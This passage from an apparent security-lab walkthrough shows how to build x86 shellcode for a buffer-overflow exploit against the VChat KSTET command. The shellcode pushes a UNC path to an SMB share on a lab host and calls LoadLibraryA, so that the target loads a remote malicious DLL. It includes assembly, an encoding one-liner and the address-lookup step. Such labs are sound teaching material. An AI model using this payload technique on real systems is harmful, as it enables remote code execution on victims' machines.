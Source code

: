 Now we can see what happens to all the resulting stdout values after the loop has finished running.
```sh
...| tac | sed 's/^/push 0x/g'
```
* [`tac`](https://www.man7.org/linux/man-pages/man1/tac.1.html): The stdout values produced by the body of the loop are piped into the *tac* command, this reverses the input printing it to stdout (We push the bytes in reverse order to the stack).
* [`sed`](https://www.gnu.org/software/sed/manual/sed.html): The results of *tac* are printed to stdout and are piped into *sed* a stream editor, this goes through the input and replaces/inserts (`s/`) the start of the string (`^`), with `push 0x` without case conversion `/g`.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/ea2f908f-3bb5-4600-8005-5848537456cf

**Now we can create the resulting Shellcode**:


1. First, we need to move our stack pointer by modifying the `ESP` register, so it is not above our shellcode. This is done to prevent the shellcode from overwriting part of itself with values used when making function calls or other stack operations. If the `ESP` value is below or less than the current shellcode address, there will be no conflict as the stack grows down, while the shellcode will execute instructions at higher addresses sequentially.
	```
	sub esp,0x64            ; Move ESP pointer to be behind (above) our shellcode as the stack grows down this prevents overwrites
	```
2. Next we need to zero out a register in order to write a NULL byte to the stack. This is done as we cannot transmit null bytes.
	```
	xor ebx,ebx             ; Zero out EBX to be the NULL terminator
	push ebx                ; PUSH NULL byte
	```
3. Now we can add the instructions used to push the UNC string onto the stack.
	```
	push 0x6c000000
	push 0x6c642e6e
	push 0x77705c58
	push 0x5c35312e
	push 0x322e302e
	push 0x30315c5c
	```
	* **Notice**: Our first push instruction contains the bad character `0x00`; rather than using an encoder I will simply add three characters to the SMB share's identifier to pad it out as shown below:
		```sh
		$ for i in $(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
		```

4. Now we can push the arguments `LoadLibraryA` uses onto the stack, including a pointer to the UNC string which we have just finished inserting onto the stack.
	```
	push esp		; Pointer of the UNC path
	```
5. Now we need the address of the `LoadLibraryA` function in order to call it, to get this information we can use [Arwin](https://github.com/xinwenfu/arwin) as shown below:
	```
	arwin.exe kernel32 LoadLibraryA
	```
	* `arwin.exe`: This is the arwin address resolution program.
	* `kernel32`: This is the DLL that the function is stored in that we should search.
	* `LoadLibraryA`: The function whose address we are attempting to resolve.
